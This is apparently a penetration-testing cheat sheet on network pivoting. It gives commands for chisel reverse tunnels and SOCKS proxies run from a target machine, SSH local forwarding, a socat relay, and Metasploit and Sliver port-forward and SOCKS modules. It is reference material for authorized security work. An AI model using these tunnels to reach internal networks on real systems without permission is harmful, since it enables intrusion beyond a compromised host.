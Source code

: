 ```yaml
---
title: "Network Traffic Pivoting"
date: 2024-6-26
tags: ["pivot", "chisel", "ssh", "metasploit", "network", "socat", "port forward", "tunneling"]
---
```


### Tunneling

{{< tab set1 tab1 active >}}Chisel{{< /tab >}}
{{< tab set1 tab2 >}}ssh{{< /tab >}}
{{< tab set1 tab3 >}}socat{{< /tab >}}
{{< tab set1 tab4 >}}metasploit{{< /tab >}}
{{< tab set1 tab5 >}}sliver{{< /tab >}}
{{< tabcontent set1 tab1 >}} 

#### Start a local chisel Server

```console
# In our local Linux machine
./chisel server --reverse --port <LOCAL_PORT>
```

#### Ports forwarding

```console
# In target machine
./chisel client <LOCAL_IP>:<LOCAL_PORT> R:<TARGET_PORT>:127.0.0.1:<TARGET_PORT>
```

```console
# Mutiple ports fowarding, can be different targets in the same subnet
./chisel client <LOCAL_IP>:<LOCAL_PORT> R:8080:172.17.0.2:8080 R:5000:172.17.0.3:5000
```

#### Socks5

```console
# In our local Linux machine
sudo nano /etc/proxychains4.conf
```

```console
# Add to the end of the file
socks5 127.0.0.1 1081
```

```console
# In target machine
./chisel client <LOCAL_IP>:<LOCAL_PORT> R:1081:socks
```

```console
# Usage, in our local machine
proxychains4 curl http://127.0.0.1:1081
```

<small>*Ref: [chisel](https://github.com/jpillora/chisel)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# SSH port forwarding without spawning a shell
ssh -N -L <TARGET_PORT>:127.0.0.1:<TARGET_PORT> <USER>@<TARGET>
```

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
# Any traffic go to port <TARGET_PORT> will be forwarded to <LOCAL_IP>:<TARGET_PORT>
./socat tcp-listen:<TARGET_PORT>,fork tcp:<LOCAL_IP>:<TARGET_PORT> &
```

{{< /tabcontent >}}
{{< tabcontent set1 tab4 >}}

#### Ports forwarding

```console
# Add
portfwd add -l <TARGET_PORT> -r 127.0.0.1 -p <TARGET_PORT>
```

```console
# Delete
portfwd delete -l <TARGET_PORT> -r 127.0.0.1 -p <TARGET_PORT>
```

#### Socks5

```console
# First add routes to target subnet
use post/multi/manage/autoroute
```

```console
set session <ID>
```

```console
run
```

```console
# Then create socks proxy
use auxiliary/server/socks_proxy
```

```console
run
```

{{< /tabcontent >}}
{{< tabcontent set1 tab5 >}}

```console
socks5 start
```

{{< /tabcontent >}}
